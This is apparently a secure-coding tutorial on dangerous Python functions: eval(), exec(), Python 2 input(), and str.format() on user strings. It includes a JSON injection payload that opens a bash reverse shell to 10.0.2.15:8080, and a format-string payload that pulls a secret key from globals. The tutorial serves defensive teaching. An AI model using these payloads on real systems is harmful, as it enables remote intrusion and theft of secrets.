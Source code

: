 ### Introduction 
It is possible to create a secure program using a language that is full of vulnerabilities, and also it is possible to create a vulnerable program using a language designed to be secure.

Python has become immensely useful in Cyber Security as it supports and performs a multitude of Cyber Security functions such as malware analysis, scanning, and penetration testing functions. However, it might be very easy to make a mistake in any Python code and make the program vulnerable.

In this tutorial, I will help you avoid those mistakes.

![](https://media.giphy.com/media/3oKIPcqmx1mpCOJJp6/giphy.gif)

### Dangerous functions
Some functions can be dangerous by performing a sort of code injection and an authentication bypass. Let's be in the hacker's shoes, think like him, and learn how to protect our code.

#### Eval()
Python’s `eval()` gives you the ability to pass a string to execute it as a code. For example, `eval("2 ** 8")` will return `256`.
Let's make a simple python code:

```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(2, 4)
print(result)
```
This is a very simple calculator, which gives you the sum of two numbers. If you execute the code, then you will have `6` as a result.

Now let's turn this calculator to an application that uses JSON to pass user input:

```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(request.json['x'], request.json['y'])
print("Our result is %d." % result)
```
If we pass `{"x":"2", "y":"4"}` as our previous code, then the result will be `6` of course. But as we are thinking as a hacker, then let's try to provide something else:

```python
{"x":"__import__('os').system('bash -i >& /dev/tcp/10.0.2.15/8080 0>&1')#", "y":"4"}
```
This malicious code will force our calculator to call `os.system` then spawn a reverse shell to the IP "10.0.2.15" on PORT "8080".

#### Exec()
This function is just like `Eval()` which executes a string or a code object. You have just to replace the second line of our last code with:

```python
return exec("%s + %s" % (x, y))
```
And you can exploit it in the same way as we did before.

Now if you want to use those functions, you have to check which methods and variables the user is allowed to use by:

```python
exec('print(dir())')
```
The output is:

```
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_ih', '_ii', '_iii', '_oh', 'addition', 'exit', 'get_ipython', 'quit', 'result']
```

A lot of those variables and methods may not be necessary for your code. Therefore, you can restrict it for users bypassing optional `locals` and `globals` parameters to the method.
For example:

```python
from math import *
exec('print(dir())')
```
Then the output will be:

```
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i10', '_i11', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_i9', '_ih', '_ii', '_iii', '_oh', 'acos', 'acosh', 'addition', 'asin', 'asinh', 'atan', 'atan2', 'atanh', 'ceil', 'copysign', 'cos', 'cosh', 'degrees', 'e', 'erf', 'erfc', 'exit', 'exp', 'expm1', 'fabs', 'factorial', 'floor', 'fmod', 'frexp', 'fsum', 'gamma', 'gcd', 'get_ipython', 'hypot', 'inf', 'isclose', 'isfinite', 'isinf', 'isnan', 'ldexp', 'lgamma', 'log', 'log10', 'log1p', 'log2', 'math', 'modf', 'nan', 'pi', 'pow', 'quit', 'radians', 'remainder', 'result', 'sin', 'sinh', 'sqrt', 'tan', 'tanh', 'tau', 'trunc']
```
If we pass an empty dictionary as globals, then only the __builtins__ will be available to the object. That means if you try to access any of the functions which are available by the math module, then it will raise an exception:

```python
from math import *
exec('print(dir())', {})
```
The output is:

```python
['__builtins__']
```
If you want to provide a specific method along with the __builtins__ then you need to do the following:

```python
from math import *
exec('print(dir())', {'squareroot': sqrt})

exec('print(squareroot(16))', {'squareRoot': sqrt})
```
This will give the user the ability to execute the `sqrt` method by using `squareroot()`. However, if he tries to use `sqrt()` then it will raise an exception.

The output here is:

```python
['__builtins__', 'squareRoot']
4.0
```

#### Input()
You can find this vulnerability only in [Python 2](https://www.python.org/downloads/release/python-272/) and you can't find it in [Python 3](https://www.python.org/downloads/).

This function in Python 2 takes the value type, as it is without changing its type. 

```python
secret = 5
number = input("Expect the secret number")
if number==secret:
    print("YES")
else:
    print("NO")
```
Now we have a secret number, and we want the user to expect it. If we pass `5` then the result will be `YES` and otherwise it will be `NO`, but if we pass `secret` then the result will be `YES` because the Python conditional now is:

```python
if secret==secret: // This will be true
```

And just like that, you can pass any password leading to authentication bypass. Also, there are a lot of other ways to exploit this function.

To fix this issue, you just need to use `raw_input()` instead of `input()` while you are using Python 2 because it is converting any input to a string. If you are using Python 3 then don't worry about it while it is doing just the same as `raw_input()`.

### String formatting exploiting
This can be a very dangerous method because it leads the hackers to authentication bypass and to get access to sensitive information. So how does this really work?

Let's build a simple app, assume that *CONFIG* contain sensitive information like an *API key*:

```python
CONFIG = {
    "KEY" : "SECRET_KEY"
}
class info:
    def __init__(self, first, last):
        self.first = first
        self.last = last

def getName(some_str, peopleinfo_obj):
    return some_str.format(peopleinfo_obj = peopleinfo_obj)

people = info('Ahmad', 'Mardeni')

stri = input()
getName(stri, peopleinfo_obj = people)
```
Now if the user passes the following as input:

```python
Name_is_{peopleinfo_obj.first}_{peopleinfo_obj.last}
```
Then the output will be:

```python
'Name_is_Ahmad_Mardeni'
```
But if he passes the following as input:

```python
{peopleinfo_obj.__init__.__globals__[CONFIG][KEY]}
```
Then our sensitive information will be compromised and the output will be:
```python
'SECRET_KEY'
```
That happened because the string formatting function has the ability to access attributes objects. And the question now, is it still good to use `str.format()`? Yes, but you have to be aware because it becomes vulnerable when it is used over user-controlled strings.

### Conclusion 
We learned about the dangerous functions `eval()`, `exec()` ,and `input()`, how hackers can use them to hack your Python code, and finally, how to protect yourself against them. But anyway, you have to pay an attention to vulnerabilities besides the language-specific ones, like [XSS](https://owasp.org/www-community/attacks/xss/), [SQL injection](https://www.w3schools.com/sql/sql_injection.asp), etc...

Till next time, happy coding Pythonistas!

![](https://media.giphy.com/media/LmNwrBhejkK9EFP504/giphy.gif)

### Further reading
1. [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
2. [YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter)
